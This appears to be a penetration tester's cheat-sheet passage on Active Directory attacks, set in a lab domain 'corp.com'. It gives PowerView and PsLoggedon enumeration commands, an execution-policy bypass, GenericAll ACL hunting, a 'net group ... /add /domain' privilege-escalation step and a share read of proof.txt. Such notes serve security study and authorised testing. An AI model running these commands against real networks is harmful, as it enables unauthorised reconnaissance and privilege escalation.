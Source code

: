 ```
serviceprincipalname          : {TERMSRV/DC1, TERMSRV/DC1.corp.com, Dfsr-12F9A27C-BF97-4787-9364-D31B6C55EB04/DC1.corp.com, ldap/DC1.corp.com/ForestDnsZones.corp.com...}
usncreated                    : 12293
lastlogon                     : 10/18/2022 3:37:56 AM
badpwdcount                   : 0
cn                            : DC1
useraccountcontrol            : SERVER_TRUST_ACCOUNT, TRUSTED_FOR_DELEGATION
whencreated                   : 9/2/2022 11:10:48 PM
primarygroupid                : 516
iscriticalsystemobject        : True
msds-supportedencryptiontypes : 28
usnchanged                    : 178663
ridsetreferences              : CN=RID Set,CN=DC1,OU=Domain Controllers,DC=corp,DC=com
dnshostname                   : DC1.corp.com
```
#### Logged On Users
```
Find possible local administrative access on computers under the current user context:
PowerView.ps1 : Find-LocalAdminAccess

Enumerate active sessions:
.\PsLoggedon.exe \\client74

Enumerate IP address based on computername such as client74:
Get-NetSession -ComputerName client74
```
#### Object Permissions
GenericAll: Full permissions on object  
GenericWrite: Edit certain attributes on the object  
WriteOwner: Change ownership of the object  
WriteDACL: Edit ACE's applied to object  
AllExtendedRights: Change password, reset password, etc.  
ForceChangePassword: Password change for object  
Self (Self-Membership): Add ourselves to for example a group  
```
powershell -ep bypass
Import-module .\PowerView.ps1

Find SIDs which has GenericAll Permission on "Management Department" Group:
Get-ObjectAcl -Identity "Management Department" | ? {$_.ActiveDirectoryRights -eq "GenericAll"} | select SecurityIdentifier,ActiveDirectoryRights

Find interesting domain object permissions whose permissions are GenericAll:
Find-InterestingDomainAcl | ? {$_.ActiveDirectoryRights -eq "GenericAll"}

Conver SIDs to UserAccount names:
"S-1-5-21-1987370270-658905905-1781884369-512","S-1-5-21-1987370270-658905905-1781884369-1104","S-1-5-32-548","S-1-5-18","S-1-5-21-1987370270-658905905-1781884369-519" | Convert-SidToName
Convert-SidToName S-1-5-21-1987370270-658905905-1781884369-553
```
When Stephanie has GenericAll permissions on "Management Department" group, you can add her to Management Department group
```
net group "Management Department" stephanie /add /domain
```
#### Enumerate Domain Shares
```
powershell -ep bypass
Import-module .\PowerView.ps1
Find-DomainShare
ls \\dc1.corp.com\"Important Files"\
type \\dc1.corp.com\"Important Files"\proof.txt
```